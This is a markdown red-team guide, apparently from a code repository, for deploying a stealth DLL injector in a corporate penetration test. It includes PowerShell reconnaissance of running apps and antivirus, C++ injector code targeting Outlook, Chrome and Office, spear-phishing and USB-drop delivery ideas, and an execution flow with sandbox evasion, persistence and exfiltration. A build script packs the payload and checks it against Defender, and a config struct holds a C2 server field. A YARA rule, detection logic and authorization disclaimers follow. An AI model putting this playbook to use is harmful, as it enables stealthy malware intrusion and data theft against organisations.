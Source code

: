 # Red Team Deployment Guide

## 🎯 **Scenario: Corporate Penetration Test**

### **Phase 1: Reconnaissance**
```powershell
# Target analysis
Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "outlook.exe"}
Get-Process | Where-Object {$_.ProcessName -like "*chrome*" -or $_.ProcessName -like "*firefox*"}

# AV Detection
Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct
```

### **Phase 2: Payload Preparation**
```cpp
// Build stealth injector with target-specific modifications
class TargetSpecificInjector : public StealthInjector {
public:
    static bool deployPayload() {
        // Custom obfuscation for this target
        std::vector<BYTE> encryptedDLL = loadEncryptedPayload();
        std::vector<BYTE> decryptedDLL = decryptPayload(encryptedDLL);
        
        // Target common corporate applications
        std::vector<std::wstring> targets = {
            L"outlook.exe",    // Email client
            L"chrome.exe",     // Browser  
            L"winword.exe",    // Word
            L"excel.exe"       // Excel
        };
        
        for (const auto& target : targets) {
            if (stealthInject(target, decryptedDLL)) {
                return true; // Success on any target
            }
        }
        return false;
    }
};
```

### **Phase 3: Delivery Methods**
```
📧 Spear Phishing:
├── "IT Security Update Required.exe"
├── Disguised as legitimate software
├── Embedded in Office documents with macros
└── Social engineering tailored to target

💽 Physical Access:
├── USB drop in parking lot
├── Malicious charging cables
├── Hardware implants
└── Supply chain compromise

🌐 Web-based:
├── Watering hole attacks
├── Malicious ads on business sites
├── Compromised software downloads
└── Drive-by downloads
```

### **Phase 4: Execution Flow**
```
User Executes Malware
        ↓
Anti-Analysis Checks
├── Is this a real environment?
├── Is user actually present?
├── Is AV/EDR running?
└── Is this a sandbox?
        ↓
Environment Validation Passed
        ↓
Target Process Discovery
├── Find high-value processes
├── Check process architecture
├── Verify injection feasibility
└── Select optimal target
        ↓
Stealth Injection
├── Dynamic API resolution
├── Manual DLL mapping
├── Memory-only execution
└── No file system artifacts
        ↓
Payload Execution
├── Establish persistence
├── Escalate privileges
├── Exfiltrate data
└── Lateral movement
```

---

## 📊 **Technical Implementation Details**

### **Build Process:**
```batch
@echo off
echo Building Stealth Injector...

REM Setup obfuscation parameters
set OBFUSCATION_KEY=0x6A
set API_HASH_SALT=0x35

REM Compile with maximum optimization
cl.exe /O2 /Ob2 /Oi /Ot /favor:INTEL64 stealth_injector.cpp /Fe:payload.exe

REM Apply packing
upx --best --ultra-brute payload.exe

REM Verify AV detection
echo Testing against Windows Defender...
"C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File payload.exe

echo Build complete!
```

### **Runtime Configuration:**
```cpp
// Configuration embedded in binary
struct Config {
    DWORD magicHeader = 0xDEADBEEF;
    BYTE encryptionKey[32];
    BYTE targetHashes[10][4];  // Hashed target process names
    DWORD sleepInterval = 5000; // Anti-sandbox delay
    BOOL enablePersistence = TRUE;
    BOOL enableKeylogging = FALSE;
    char c2Server[256] = "https://legitimate-looking-domain.com";
};
```

---

## 🛡️ **Defense Countermeasures**

### **Detection Signatures:**
```yaml
# YARA rule for detecting stealth injector patterns
rule StealthInjector_Patterns {
    meta:
        description = "Detects stealth injection techniques"
        author = "Security Team"
        
    strings:
        $api_hash = { 33 ?? ?? ?? C1 ?? 07 C1 ?? 19 03 }  // API hashing pattern
        $manual_map = "VirtualAddress" ascii
        $anti_debug = { 65 48 8B ?? 60 00 00 00 }  // PEB access pattern
        
    condition:
        2 of them
}
```

### **Behavioral Detection:**
```cpp
// EDR detection logic
class BehavioralDetection {
public:
    static bool detectInjection() {
        // Monitor for suspicious API sequences
        if (detectAPISequence({"OpenProcess", "VirtualAllocEx", "WriteProcessMemory", "CreateRemoteThread"})) {
            return true;
        }
        
        // Monitor for manual DLL mapping indicators
        if (detectMemoryPattern(PE_HEADER_PATTERN)) {
            return true;
        }
        
        // Monitor for anti-analysis behaviors
        if (detectAntiAnalysis()) {
            return true;
        }
        
        return false;
    }
};
```

### **Endpoint Protection:**
```powershell
# PowerShell script for endpoint hardening
# Disable common injection vectors
Set-ProcessMitigation -Name "notepad.exe" -Enable CFG,DEP,SEHOP

# Enable additional logging
auditpol /set /subcategory:"Process Creation" /success:enable
auditpol /set /subcategory:"Process Termination" /success:enable

# Configure Windows Defender real-time protection
Set-MpPreference -EnableControlledFolderAccess Enabled
Set-MpPreference -EnableRealTimeMonitoring $true
```

---

## ⚖️ **Legal và Ethical Considerations**

### **Authorized Use Cases:**
- ✅ Penetration testing với written authorization
- ✅ Red team exercises cho organization
- ✅ Security research trong controlled environment
- ✅ Educational demonstrations

### **Prohibited Uses:**
- ❌ Unauthorized access to computer systems
- ❌ Malware distribution
- ❌ Data theft hoặc privacy violations
- ❌ Disruption of services

### **Best Practices:**
1. **Written Authorization**: Luôn có permission trước khi test
2. **Scope Limitation**: Chỉ test trong agreed-upon scope
3. **Data Protection**: Không access/exfiltrate sensitive data
4. **Cleanup**: Remove all artifacts sau khi test xong
5. **Documentation**: Report findings responsibly

---

*🔐 Remember: These techniques should only be used for legitimate security testing and research purposes.*
